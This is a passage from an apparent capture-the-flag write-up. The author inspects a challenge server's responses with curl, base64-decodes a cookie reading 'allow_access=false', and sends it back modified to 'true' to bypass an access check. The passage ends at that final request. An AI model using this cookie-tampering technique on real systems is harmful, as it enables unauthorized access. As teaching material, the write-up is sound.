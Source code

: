 ```
<
* Connection #0 to host 192.81.210.234 left intact
```

As shown above, the web responded with a `Set-Cookie` header, which is the way for the server to send cookies to the client. I repeated the request, but now with the given cookie attached:

```
 curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPWZhbHNl" -v
```

And here's the response.

```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: identify=YWxsb3dfYWNjZXNzPWZhbHNl
>
< HTTP/1.1 200 OK
< Date: Thu, 04 Jun 2020 09:29:08 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
< X-Note: Your access has not been allowed. Please try again later.
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 192.81.210.234 left intact
```

I noticed that among the headers there is an `X-Note` header (which seems to be a custom HTTP header) that says "**Your access has not been allowed. Please try again later.**". 

In pursuit of allowing myself to the server, I examined the value of the cookie and found out that it was *base64-encoded*. 

![053c6cf25c41af2165b7f288619b699f.png](/assets/images/05a05c47083e44569938fbaee856460e.png)

I decoded the cookie and found this:

![caa5a9f746c5292c3509ab48478114be.png](/assets/images/3d7a0dfdadac48b0a4ac124883354d26.png)

So I modified the value into `allow_access=true`, encoded it back into *base64* string, and send it again to the server.

```
 curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" -v
```
